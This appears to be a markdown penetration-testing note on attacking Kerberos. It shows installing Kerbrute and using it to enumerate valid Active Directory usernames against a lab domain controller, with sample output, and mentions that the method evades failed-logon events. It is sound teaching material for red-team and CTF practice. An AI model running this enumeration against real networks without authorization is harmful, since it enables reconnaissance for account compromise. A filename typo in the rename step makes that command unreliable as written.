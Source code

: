 ```yaml
---
title: Attacking Kerberos
description: Notes detailing how to attack kerberos as part of a RT engagement or CTF
date: 2024-06-12 13:29:00 +0100
categories: [Active Directory]
tags: [active directory, kerberos, windows]
image: /assets/img/banners/attacking_kerberos.webp
---
```


# Attacking Kerberos
## Enumeration using `Kerbrute`
`Kerbrute` can brute force and enumerate valid active directory users by leveraging Kerberos pre-authentication. By using pre-authentication, you will not trigger the “account failed to log on” windows event. When using pre-authentication you can brute-force by sending a single UDP frame to the KDC, allowing you to enumerate the users from a wordlist.

### Installation
Find the latest version on GitHub and install to your system. Below works on Kali.

```bash
user@kali$ wget <https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64>
user@kali$ mv kerbrute_linux_amb64 kerbrute # rename
user@kali$ chmod +x kerbrute
user@kali$ ./kerbrute
...
```

You will also need a username list, a sample one can be found [here](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt)
### Usage
```bash
user@kali ./kerbrute userenum --dc <DOMAIN_CONROLLER_IP> -d DOMAIN <USERNAME_LIST>.txt
# For example
user@kali ./kerbrute userenum --dc 10.10.217.22 -d CONTROLLER.local User.txt
	Version: v1.0.3 (9dad6e1) - 11/15/22 - Ronnie Flathers @ropnop
	
	2022/11/15 04:14:51 >  Using KDC(s):
	2022/11/15 04:14:51 >   10.10.217.22:88
	
	2022/11/15 04:14:51 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
	2022/11/15 04:14:51 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
	2022/11/15 04:14:51 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       user1@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       user2@CONTROLLER.local
	2022/11/15 04:14:52 >  [+] VALID USERNAME:       user3@CONTROLLER.local
	2022/11/15 04:14:52 >  Done! Tested 100 usernames (10 valid) in 0.603 seconds
```
